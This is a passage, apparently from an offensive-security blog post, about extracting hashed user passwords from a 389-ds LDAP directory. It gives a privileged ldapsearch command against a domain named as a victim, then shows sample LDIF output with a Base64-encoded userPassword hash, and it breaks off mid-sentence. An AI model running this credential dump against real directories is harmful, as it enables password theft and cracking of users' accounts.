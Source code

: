 There's a ton a person could go into around LDAP, ldif, and the various configurations and policies, but I'll gloss over those for now. When you setup 389-ds initially you create a Directory Manager user with full access to make changes to the LDAP environment and configuration. This is synonymous with Domain Admin but only applies to the Directory itself (it isn't used to access other resources for example). Typically it is the only user with access to view the userPassword field which contains hashed user passwords. Keep in mind it is possible to have passwords simply encoded in Base64 or passwords hashed using weaker algorithms dependingon how things have been configured and migrated. To grab all the objects and properties, the following command can be used.

`ldapsearch -x -b "dc=examplevictim,dc=com" -D "uid=admin,ou=Administrators,ou=TopologyManagement,o=NetscapeRoot" -W`

{{< highlight txt >}}
# extended LDIF
#
# LDAPv3
# base (dc=examplevictim,dc=com) with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#
# username1, People, examplevictim.com
dn: cn=username1,ou=People,dc=examplevictim,dc=com
sn: username1
cn: username1
objectClass: inetOrgPerson
objectClass: organizationalPerson
objectClass: person
objectClass: top
userPassword:: e1BCS0RGMl9TSEEyNTZ9QUFBbkVHVHhYdG5SL29veDkyMi9qWnlqSDZmbWlJZFc
 0QXdJWVpFMkxmQ1ZML1NVejVHYkFIZmpSajROYk4ydTh1bDAvai9kVXpKNGdRU2F3R0FMR0haVjc0
 bk9BdFB0dG9aRFRzaDdCZUdDTEQvUHM3dlJ1Z3dEZHo5dVBBUlh6RjNiRC84cUNwdW12UkdiNHBla
 HpmUXNrK0ZuR2dUd2kwclVlVmFOOGE3S2J2OFpwUmZVMnNkKzIwOEYvWUw0MkJXQWgvMnR2MEk0dl
 k3WnNyQ1pjclVKdGdLV3k1TnIrdDc4em1Qa3Jac1gva2dmbkdkWGhyNTBrTjEwY21rTFEwL2NaT1h
 vOUNBa3BlWnlGdSt3UTV2UWRVYUVTMlZkNWtCakpZUENrcjRiMm9jcjRFVFFpM0lHTzJHR0NvQ2V0
 bU1JRVRzdWRSVlN4VU5CYnZhK1ZneGluNUFwdTR3SVAvMFp5dUdLNlR1V0xxTG5OcG1LM1JrUngwe
 GpxSjRuTjJPazB1bDBYWUJKY1lJQnQ0VW9hVk0ydVNhL0V0dzI4VXkrekFzVXYyQU9pUm81
{{< / highlight >}}

There's that userPassword attribute. Note that many attributes are simply stored in Base64 as this one is. I wrote a utility to parse an ldif dump or the output from a privileged ldapsearch output file to grab all the user and userPassword fields and base64 decode them, available [here](TODO). Decoded that looks like
